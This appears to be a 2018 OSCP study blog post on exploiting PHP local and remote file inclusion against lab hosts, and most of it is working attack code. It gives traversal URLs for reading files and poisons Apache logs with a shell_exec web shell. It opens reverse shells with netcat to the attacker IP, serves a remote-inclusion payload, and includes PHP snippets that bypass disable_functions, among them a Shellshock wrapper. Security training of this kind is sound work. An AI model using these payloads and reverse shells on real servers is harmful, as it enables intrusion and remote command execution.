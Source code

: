```yaml
---
title:  "OSCP: LFI and RFI"
date:   2018-03-26 03:22:33 +0800
categories: oscp
classes:
  - landing
---
```


LFI happens when an PHP page explicitly calls include function to embed another PHP page, which can be controlled by the attacker.
For example, addguestbook.php below include another PHP page that can be chosen depending on the language input:
```php
$lang = $_GET['LANG'];
include( $lang . '.php' );
```
Because the LANG field can be controlled, the attacker can put in the path to a local or remote file.

## 1. Local file inclusion (LFI)
### a. Reading arbitrary files
Windows hosts file:
`http://10.11.23.188/addguestbook.php?LANG=../../windows/system32/drivers/etc/hosts%00&name=test&comment=test`

### b. Contaminating apache log file and executing it
Use netcat to connect to the server and contaminate `C:/xampp/apache/logs/access.log` file:
```
root@kali:~# nc -v 10.11.23.188 80
10.11.23.188: inverse host lookup failed: Unknown host
(UNKNOWN) [10.11.23.188] 80 (http) open
 <?php echo shell_exec($_GET['cmd']);?> 
^C
```
After contamination, the access.log file on the serve is like this:
>10.11.0.105 - - [11/Mar/2018:11:24:17 -0400] "GET /addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig&name=test&comment=test HTTP/1.1" 200 369
>10.11.0.105 - - [11/Mar/2018:11:24:48 -0400] "<?php echo shell_exec($_GET['cmd']);?> " 400 366

Display the access.log file to execute the command:
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=ipconfig&name=test&comment=test`

### c. Transferring netcat and obtaining reverse shell
Kali:
```
mkdir /tftp 
atftpd --daemon --port 69 /tftp 
cp /usr/share/windows-binaries/nc.exe /tftp/ 
```
Windows:
```
tftp -i 10.11.0.105 get nc.exe
nc.exe -e cmd.exe 10.11.0.105 4444
```
Kali:
```
nc -lvp 4444
```
Access this URL to open the shell
`http://10.11.23.188/addguestbook.php?LANG=../../xampp/apache/logs/access.log%00&cmd=nc.exe%20-e%20cmd.exe%2010.11.0.105%204444&name=test&comment=test`
Note:
```bash
python -c 'import pty; pty.spawn("/bin/sh")'
```
is used to get the TTY shell

## 2. Remote file inclusion (RFI)
Executing a command via a remote php page:
http://10.11.23.188/addguestbook.php?LANG=http://10.11.0.105:31/evil.txt%00&name=test&comment=test

Content of `/var/www/html/evil.txt`:
```php
<?php echo shell_exec("nc.exe 10.11.0.105 4444 -e cmd.exe") ?>
```
Most modern php configuration disallows remote file includes of http URIs. For example: `xampp/apache/bin/php.ini`
```ini
allow_url_fopen = Off
allow_url_include = Off
```
## 3. Bypass PHP disable_functions
The server admin can disable PHP command execution to enhance the security. In that case, we have to bypass it so that our LFI/RFI attack is meaningful.
### Use PHP code to download file and list directory
```php
function listDir($dir) {
    if ($handle = opendir($dir)) {
        while (false !== ($entry = readdir($handle))) {
            if ($entry != "." && $entry != "..")
                echo "$entry<br>";
        }
        closedir($handle);
    }
}
function downloadFile($url, $path) {
    unlink($path);
    $file = fopen ($url, 'rb');
    if ($file) {
        $newf = fopen ($path, 'wb');
        if ($newf) {
            while(!feof($file))
                fwrite($newf, fread($file, 1024 * 8), 1024 * 8);
            fclose($file);
        }
        fclose($file);
    }
}
```
### PHP 4.2.0+, PHP 5: pcntl_exec
```php
<?php
$cmd = @$_REQUEST[cmd];
if(function_exists('pcntl_exec'))
    die('pcntl not found');

$cmd = $cmd."&pkill -9 bash >out";
pcntl_exec("/bin/bash", $cmd);
echo file_get_contents("out");        
?>
```
### PHP 5.2.3: Win32std ext Protections Bypass
```php
<?php
if (!extension_loaded("win32std")) die("win32std extension required!");
system("cmd.exe"); //just to be sure that protections work well
win_shell_execute("..\\..\\..\\..\\windows\\system32\\cmd.exe");
?>
```
### PHP 5.x: Shellshock
```php
<?php
function shellshock($cmd) { // Execute a command via CVE-2014-6271 @ mail.c:283
    if(strstr(readlink("/bin/sh"), "bash") != FALSE) {
        $tmp = tempnam(".","data");
        putenv("PHP_LOL=() { x; }; $cmd >$tmp 2>&1");
        mail("a@127.0.0.1","","","","-bv"); // -bv so we don't actually send any mail
    }
    else return "Not vuln (not bash)";
    $output = @file_get_contents($tmp);
    @unlink($tmp);
    if($output != "") return $output;
    else return "No output, or not vuln.";
}
?>
```
## 4. Deal with missing -e option in netcat
```php
<?php
function reverse_shell() {
    echo "Disabled functions: " . ini_get('disable_functions')."\n";
    unlink("/tmp/backpipe");
    echo shellshock("mknod /tmp/backpipe p ");
    echo shellshock("/bin/sh -c '/bin/sh 0</tmp/backpipe | nc 10.11.0.105 4444 1>/tmp/backpipe'");
}
?>
```

**References:**
- LFI:
http://resources.infosecinstitute.com/local-file-inclusion-code-execution/
https://www.aptive.co.uk/blog/local-file-inclusion-lfi-testing/
https://www.sunnyhoi.com/how-to-hack-a-website-using-local-file-inclusion-lfi/
- TTY:
http://pentestmonkey.net/blog/post-exploitation-without-a-tty
https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/
- Reverse shell:
https://highon.coffee/blog/reverse-shell-cheat-sheet/
https://netsec.ws/?p=331
- PHP disable_functions
http://blog.safebuff.com/2016/05/06/disable-functions-bypass/
- Netcat missing -e
https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem/
